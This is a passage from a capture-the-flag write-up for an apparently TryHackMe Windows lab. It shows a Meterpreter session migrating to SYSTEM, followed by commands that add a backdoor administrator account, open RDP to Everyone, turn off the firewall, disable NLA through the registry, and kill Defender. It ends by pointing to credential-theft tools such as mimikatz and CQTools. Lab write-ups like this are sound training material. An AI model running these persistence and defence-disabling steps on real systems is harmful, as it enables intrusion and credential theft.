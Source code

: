```
[*] Session ID 3 (10.10.127.125:69 -> 10.10.239.183:51059) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against OSIRIS
[*] Current server process: IVPN Service.exe (5568)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 6976
[+] Successfully migrated into process 2792

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
After enumerate all of the user we found our second flag on user `chajoh` desktop `Flag 2` **/** `C:\Users\chajoh\Desktop\Flag2.txt`

## Flag 3
First, we need to create a new user and log in via remote desktop with that new user
So we are going to create a user named `tom` and add him to local administrator group
```
net user tom Pssw0rd123 /add

net localgroup administrators tom /add
```
Now are will disable the Firewall and Add Everyone into Remote Desktop Users group
```
net localgroup "Remote Desktop Users" Everyone /Add

netsh advfirewall set allprofiles state off
```
After that, we need to activate the RDS (Remote Desktop Service) and disable NLA (Network Level Authentication)
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```
After login with the user `tom` via RDP and we need to disable the AV with the [Defender Control](https://gist.github.com/tyranid/c65520160b61ec851e68811de3cd646d) tool

## Black Hat

And now, for the third flag, we need to download two of the tool in the CQTools show in Black hat Asia 2019 (`CQDPAPIBlobSearcher.exe` and `CQMasterKeyAD.exe`)

Also `mimikatz.exe`

For the first tool `CQDPAPIBlobSearcher.exe` it was easy to find it either on [github](https://github.com/BlackDiverX/cqtools) or some [blog](https://www.kitploit.com/2019/05/cqtools-new-ultimate-windows-hacking.html)

But for the second tool `CQMasterKeyAD.exe` I can't find it anywhere, and only a few people on tryhackme discord have it. After I got the tool, I [archive](https://archive.org/details/cqmaster-key-ad_69) it (I didn't just archive it for this writeup)

---
